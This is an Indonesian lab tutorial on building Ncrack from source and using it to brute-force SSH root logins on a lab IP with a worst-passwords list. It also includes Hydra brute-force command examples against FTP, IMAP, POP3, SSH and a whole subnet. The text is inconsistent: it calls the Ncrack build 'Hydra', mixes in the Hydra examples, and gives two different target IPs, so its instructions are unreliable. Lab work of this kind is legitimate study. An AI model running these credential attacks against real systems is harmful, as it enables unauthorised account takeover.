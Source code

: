 I NSTALASI NCRACK
----------------
- **Step 1**    : Download source code Ncrack
```
wget https://nmap.org/ncrack/dist/ncrack-0.5.tar.gz
```
- **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Hydra, ketik kode berikut di terminal:
```
tar -xzf ncrack-0.5.tar.gz
cd ncrack-0.5
./configure
make
su root
make install
```

SUPPORTED PLATFORMS
-------------------
- Semua platform UNIX (Linux, *bsd, Solaris, etc.)
- MacOS
- Windows dengan Cygwin (IPv4 and IPv6)
- Mobile systems based on Linux, MacOS or QNX (e.g. Android, iPhone, Blackberry 10, Zaurus, iPad)

CARA PENGGUNAAN
---------------
**Contoh**:
```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```
Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `10.151.36.98` dengan asumsi username `root` dan list password menggunakan file yang telah disiapkan, jalankan perintah dibawah ini pada terminal :
```
ncrack -p 22 --user root -P 500-worst-passwords.txt 10.151.254.180
```
![](/assets/ncrack-hydra/ncrack-berhasil.png)
KESIMPULAN
----------
Dengan uji coba yang telah dilakukan, Ncrack dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang dengan waktu 90 detik, berarti proses serangan dengan Ncrack lebih cepat dari THC Hydra. Jika password tidak terdapat dalam file, maka serangan akan gagal.







